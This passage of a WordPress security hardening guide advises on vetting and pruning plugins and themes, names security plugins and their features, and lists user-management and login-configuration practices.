Only install trusted themes and plugins from the WordPress.org website. Before installing a plugin or theme, check its reviews, popularity, number of installs, and update date. If either has not been updated in years, it could be a sign that it is no longer maintained and may suffer from unpatched vulnerabilities. Routinely audit your WordPress site and remove any unused themes and plugins. This will help ensure that no outdated plugins are left forgotten and potentially vulnerable.

### Enhance WordPress Security

Several WordPress security plugins can be used to enhance the website's security. These plugins can be used as a WAF, a malware scanner, monitoring, activity auditing, brute force attack prevention, and strong password enforcement for users. Examples:

- Sucuri Security
  - Security Activity Auditing
  - File Integrity Monitoring
  - Remote Malware Scanning
  - Blacklist Monitoring
- iThemes Security
  - 2fA
  - WordPress Salts & Security Keys
  - Google reCAPTCHA
  - User Action Logging
- Wordfence Security
  - WAF
  - _premium_: real-time firewall rule and malware signature updates
  - _premium_: real-time IP blacklisting to block all requests from known most malicious IPs

### User Management

Users are often targeted as they are generally seen as the weakest link in an organization. The following user-related best practices will help improve the overall security of a WordPress site:

- disable the standard _admin_ user and create accounts with difficult to guess usernames
- enforce strong passwords
- enable and enforce 2FA for all users
- restrict users access based on the concept of least privileges
- periodically audit user rights and access
  - remove any unused accounts or revoke access that is no longer needed

### Configuration Management

Certain configuration changes can increase the overall security posture of a WordPress installation:

- install a plugin that disallows user enumeration so an attacker cannot gather valid usernames to be used in a password spraying attack
- limit login attempts to prevent password brute-forcing attacks
- rename the ```wp-login.php``` login page or relocate it to make it either not accessible to the internet or only accessible by certain IP addresses